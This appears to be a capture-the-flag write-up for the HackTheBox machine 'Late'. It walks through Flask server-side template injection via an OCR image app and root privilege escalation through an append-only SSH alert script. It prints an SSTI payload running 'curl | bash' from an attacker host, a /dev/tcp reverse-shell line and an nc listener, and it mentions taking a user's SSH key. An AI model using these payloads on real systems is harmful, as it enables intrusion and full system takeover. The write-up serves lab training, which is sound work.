 ```yaml
---
layout: post
title: HackTheBox - Late - Write-up
difficulty: easy
tags: [ssti]
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.156 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Server-Side Template Injection |
| **Tools Used** |  |
| **Techniques Used** |  |
| **Interesting Files** |  |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | nginx 1.14.0 (Ubuntu) |

***

## Walk-through

Visiting the website leads us to a simple landing page with marketing materials for an online photo editor. Going through the pages within the site gives us a link to `images.late.htb`, which we can include in our `/etc/hosts` file to browse.

### Server-Side Template Injection

The `images.late.htb` site contains an Image to Text conversion application. It uses some Optical Character Recognition (OCR) library to detect any text from an image, and return it back in the response. This application seems to be an implementation of [lucadibello/ImageReader](https://github.com/lucadibello/ImageReader), which renders the `text` output using the `render_template` function.

``` python
@app.route('/result')
def result():
    if "data" in session:
        data = session['data']
        return render_template(
            "result.html",
            title="Result",
            time=data["time"],
            text=data["text"],
            words=len(data["text"].split(" "))
        )
    else:
        return "Wrong request method."
```
{% raw %}
In Flask, the `render_template` function allows us to evaluate expressions using the `{{ ... }}` syntax. For example, mathematical expressions such as `{{7*7}}` would be evaluated and would result in an output of `49`. We can use this technique to execute code using the Flask engine.

We can create and image that simply says: `{{7*7}}`, and just as we thought, it gave us the following response, confirming the Server-Side Template Injection:

``` html
<p>49
</p>
```

This required a lot of tinkering of the image to get the exploit to work. The OCR was not particularly consistent, so a lot of characters were interpreted differently. In the end, I was able to create an image with the following payload to successfully create a reverse shell connection back to my machine:

``` python
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen("curl 10.10.10.10 | bash".read() }}
```
{% endraw %}
 **TIP:** I hosted a Reverse-Shell Bash script in an HTTP server so that it can pipe that over to `bash` after `curl`ing it.

***And, we're in!***

### Privilege Escalation

Running `linpeas.sh` would give us back an interesting script file: `/usr/local/sbin/ssh-alert.sh`. This seems to sends an email notification to `root@late.htb` whenever an SSH login is detected.

``` bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

When we check the file, it's actually owned by our current user `svc_acc`. So, we can change the script and it will execute our code when an SSH login is detected. However, when we try doing so, we are blocked because the `a` attribute for the file is set, meaning we can only append to it.

```
svc_acc@late:~$ ls -l /usr/local/sbin/ssh-alert.sh
-rwxr-xr-x 1 svc_acc svc_acc 433 Jul 25 21:01 /usr/local/sbin/ssh-alert.sh

svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

We can simply append a reverse-shell command to the `ssh-alert.sh` script to connect back to our machine. But first, we need to be able to login using SSH first. To do so, we can get the SSH private key of `svc_acct` from `home/svc_acc/.ssh/id_rsa` and copy it over to our machine.

```
svc_acc@late:/usr/local/sbin$ echo "bash -i >& /dev/tcp/10.10.10.10/37117 0>&1" >> ssh-alert.sh
```

Finally, we can then listen for the reverse-shell connection and use the private key of the `svc_acct` (`id_rsa`) to login through SSH, triggering the code we appended.

```
$ nc -nlvp 37117
listening on [any] 37117 ...
connect to [10.10.10.10] from late.htb [10.10.11.156] 41502
bash: cannot set terminal process group (1975): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# whoami
root
```
***And, we're done!***
